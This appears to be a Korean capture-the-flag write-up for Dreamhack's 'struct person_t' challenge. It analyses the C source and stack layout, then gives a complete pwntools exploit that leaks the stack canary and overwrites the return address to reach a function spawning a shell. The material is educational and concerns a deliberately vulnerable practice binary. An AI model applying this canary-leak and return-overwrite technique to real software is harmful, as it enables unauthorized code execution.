




# [Dreamhack.io] struct person_t Write-Up

- **Platform:** Dreamhack
- **Date:** 2026-08-18 (solved) / 2026-08-21 (written)
- **Difficulty:** Easy

---

## 1. Challenge Overview (문제 개요)

> [!NOTE]
> 📖 **문제 요약**
> - **목표:** `get_shell()` 실행 (`execve("/bin/sh")`으로 쉘 탈취 가능)

- **제공 파일:**
```text
┌──── Dockerfile
└──── deploy/
    ├──── chall
    ├──── chall.c
    └──── flag
```
- **보호 기법 (Checksec):**
```text
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
```

---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석
```c
// Name: chall.c
// Compile: gcc -Wall -no-pie chall.c -o chall ; strip chall
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

struct person_t {
    char nationality[32];
    char name[56];
    double height;
    int age;
    char male_or_female[4];
};

void get_shell() {
    execve("/bin/sh", 0, 0);
}

void read_input(char *ptr, size_t len) {
    ssize_t readn;

    readn = read(0, ptr, len);
    if (readn < 1) {
        puts("read() error");
        exit(1);
    }

    if (ptr[readn - 1] == '\n') {
        ptr[readn - 1] = '\0';
    }
}

int main() {
    struct person_t person;

    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    printf("Enter name: ");
    read_input(person.name, 56);

    printf("Enter age: ");
    scanf("%d", &person.age);

    printf("Enter height: ");
    scanf("%lf", &person.height);

    printf("Enter M (Male) or F (Female): ");
    read_input(person.male_or_female, 5);

    printf("Hi %s.\n", person.name);

    printf("What's your nationality? ");
    read_input(person.nationality, 128);

    return 0;
}
```

* `read_input` 함수에서 만약 `len`만큼 입력을 받았고, 그 안에 개행 문자가 없으면, 아무런 처리를 하지 않는다. 단순히 읽기 오류 혹은 개행문자만 널 바이트로 치환할 뿐이다.
	==> NULL 바이트가 없는 입력을 통해 출력 시 다른 메모리의 값까지 출력 가능하다.
* `person.male_or_female`, `person.nationality` 입력 시 각각 오버플로우가 일어난다.
### 취약점 원인 (Root Cause)
- **발생 원인:** 입력값 경계 검사 미흡으로 인한 오버플로우 / `read_input()` 로직 오류
- **파급 효과:** 다른 메모리의 값 Leak 가능, RET 주소 변조 가능

---

## 3. Trial & Error (삽질 및 실패 기록)

### `struct person_t`가 어떻게 저장이 될까
* 구조체의 경우, 선언한 순서대로 메모리에 적재된다.
	* `nationality[32]`: 32 바이트
	* `name[56]` : 56 바이트
	* `height` : 8 바이트
	* `age` : 4 바이트
	* `male_or_female[4]` : 4 바이트
* 64비트 환경에서 `double형`은 8바이트 정렬이 맞아야 한다.
* 32 + 56 = 88로 8바이트 정렬이 맞기 때문에, 모든 변수들은 패딩 없이 적재가 된다.
### `struct person_t person` 변수는 패딩 없이 적재되는가?
* 컴파일 이후, `strip chall`으로 인해 심볼 테이블이 `strip`된다.
* 따라서, 해당 변수가 스택 프레임에 들어가는 모습은 어셈블리어 혹은 동적 분석이 필요하다.
#### 어셈블리어를 통해 확인
* `name[56]`가 호출되는 부분이다.

	 > `printf`가 호출된 이후, `read_input` 함수의 전달인자를 설정하는 과정에서,
	 > `rdi`에 `[rbp - 0x70 + 0x20]`이 들어가므로, `[rbp - 0x50]`이 `name`이다 
* `age`가 호출되는 부분이다.

	> 마찬가지로, `scanf` 함수의 전달인자를 설정하는 과정에서,
	> `rsi`에 `[rbp - 0x70 + 0x60]`이 들어가므로, `age`의 주소는 `[rbp - 0x10]`부터이다.
* `height`가 호출되는 부분이다.

	> `scanf`의 두 번째 전달인자인 `rsi`가 `[rbp - 0x70 + 0x58]`로 설정된다.
	> 따라서 `height`은 `[rbp - 0x18]` 임을 알 수 있다.
* 다른 멤버 변수들도 동일한 방법으로 찾을 수 있다.
+ **또한**, 구조체의 시작 주소가 `[rbp - 0x70]`이고, 구조체 전체 크기가 0x68이므로, canary 위에 바로 구조체가 존재함을 알 수도 있다.

> [!CAUTION]
> ⛔ Attempt 1: [`p64` 함수를 이용해 전달하기]
> * **가설:** `p64` 함수를 통해 `age`, `height` 변수를 0이 아닌 값으로 채우기
> * **시도 내용:**
> 	* `p64(0xAAAAAAAA)`를 통해 변수에 0이 아닌 값을 채우기
> * **결과 및 에러:** 다음 입력을 기다리는 과정에서 `EOFError` 발생
> * **원인 분석:**
> 	* 두 변수는 모두 `scanf` 함수를 통해 입력 받는다.
> 	* `scanf` 함수는 각 바이트를 ASCII 코드로 해석하기 때문에 `p64`를 통해 보낸 값이 이상한 ASCII 코드로 해석이 되어 메모리에 적재된다.
> 	* 따라서 p64가 아닌 직접 바이트 문자열을 전달해줘야 한다. 이때, 메모리에 적재될 시 널 바이트가 없도록 값을 조정해야 된다.

---

## 4. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ‼️ **돌파구 (Breakthrough)**
> `person.name`를 출력할 때, canary를 leak하기 위해, `height`, `age`, `male_or_female` + 1바이트를 0이 아닌 더미값으로 채운다.
> 이후 leak된 canary를 통해 `person.nationality` 입력 때, `RET` 주소를 `get_shell` 주소로 변조한다.

1. `name` 변수를 0이 아닌 값으로 0x38 바이트 채우기
2. `height` 변수를 0이 아닌 값으로 0x8 바이트 채우기
3. `age` 변수를 0이 아닌 값으로 0x4 바이트 채우기
4. `male_or_female` 변수를 0이 아닌 값으로 0x5 바이트 채우기 (Canary Leak)
5. `nationality` 변수 입력을 통해 `RET` 주소를 `get_shell` 주소로 변조하기
---

## 5. Exploit Code (최종 코드)

```python
#!/usr/bin/python3
from pwn import *

context.log_level = 'debug'

p = process("./chall")
# p = remote("IP", PORT)
e = ELF("./chall")

# name
p.sendafter(b"Enter name: ", b'A' * 56)

# age (p64가 아닌 문자열 직접 입력)
p.sendlineafter(b"Enter age: ", b"1094795585")

# height (p64가 아닌 문자열 직접 입력)
p.sendlineafter(b"Enter height: ", b"-1.4398141315809794e-299")

# male_or_female
p.sendafter(b"Enter M (Male) or F (Female): ", b"ABCDE")

# canary leak
p.recvuntil(b"Hi ")
p.recv(0x38 + 0x8 + 0x9) # name + height + age + male_or_female + 1

canary_leaked = u64(b'\x00' + p.recv(7))
print(f"{hex(canary_leaked)=}")

# buffer overflow
get_shell = 0x401216 # NO PIE 이므로 디스어셈블을 통해 주소를 구할 수 있다.

payload = b'A' * 0x68 + p64(canary_leaked) + p64(0xDEADBEEF) + p64(get_shell)
p.sendlineafter(b"? ", payload)

p.interactive()
```

* **로컬 환경**에서 실행한 결과이다.

* `age`와 `height` 메모리에 0이 아닌 값을 채우기 위한 값을 지정해 보냈다.
* 이후 canary가 leak되고 이를 이용해 `RET` 주소를 변조한다.

---

## 6. 배운 점 & 오답 노트

- **새로 알게 된 내용:**
	- `p64` 함수는 바이트 값을 전달하는데, `scanf` 함수는 한 바이트씩 ASCII 코드로 해석하므로, 우리가 전달한 바이트가 다르게 해석될 수 있다. 이때에는 직접 바이트 문자열을 조정해서 보내야 한다.